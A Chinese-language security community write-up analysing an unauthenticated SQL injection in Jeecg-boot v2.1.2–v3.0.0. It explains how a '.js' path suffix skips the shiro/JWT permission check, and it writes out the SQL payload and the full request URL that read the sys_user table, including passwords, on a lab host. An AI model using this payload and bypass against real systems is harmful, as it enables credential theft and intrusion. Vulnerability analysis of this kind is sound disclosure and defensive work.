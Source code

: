 

# Jeecg-boot v2.1.2-v3.0.0 后台未授权 SQL 注入漏洞 分析 - 先知社区

Jeecg-boot v2.1.2-v3.0.0 后台未授权 SQL 注入漏洞 分析

- - -

sangfor 华东天勇战队[@pant0m](https://github.com/pant0m)  
源码位置： [https://github.com/jeecgboot/jeecg-boot/releases/tag/v3.0.0](https://github.com/jeecgboot/jeecg-boot/releases/tag/v3.0.0)  
sqli 接口

漏洞点：src/main/java/org/jeecg/modules/ngalain/controller/NgAlainController.java

[![](assets/1703058957-d139ddf0d9c0aa4d851312fecd4cfff9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231218203729-34fa68ce-9da2-1.png)

到达的 mapper 层的 sql 语句为

[![](assets/1703058957-46713a7bff7a0fdcdd3c32254738e551.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231218203736-3965662a-9da2-1.png)

也就证明可以控制 sql 语句  
[http://192.168.2.2:8081/jeecg-boot/sys/ng-alain/getDictItemsByTable/sys\_user/username/password](http://192.168.2.2:8081/jeecg-boot/sys/ng-alain/getDictItemsByTable/sys_user/username/password)

[![](assets/1703058957-6bd8a1c54cf3f8925fc11f852a5ee466.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231218203749-40b4676e-9da2-1.png)

未授权绕过

通过分析，整体框架使用 jwt+shiro 验证

[![](assets/1703058957-3aec2e9e75464989782aa00f3d4bea74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231218203754-441a77f4-9da2-1.png)

但是通过分析发现

[![](assets/1703058957-834b7fc988f8c7288f6bb07c91727ab6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231218203813-4f07f114-9da2-1.png)

此类的后缀接口是不需要权限校验的  
构造 payload

SELECT \*, ' as "label",x.js as "value" from ' FROM sys\_user  
只需要构造如图的 sql 查询即可  
那么接口的请求即为

[http://192.168.2.2:8081/jeecg-boot//sys/ng-](http://192.168.2.2:8081/jeecg-boot//sys/ng-)  
alain/getDictItemsByTable/'%20from%20sys\_user/\*,%20'/x.js

[![](assets/1703058957-f4144476fb71fa8baa86287de52ec53e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231218203830-5937db72-9da2-1.png)
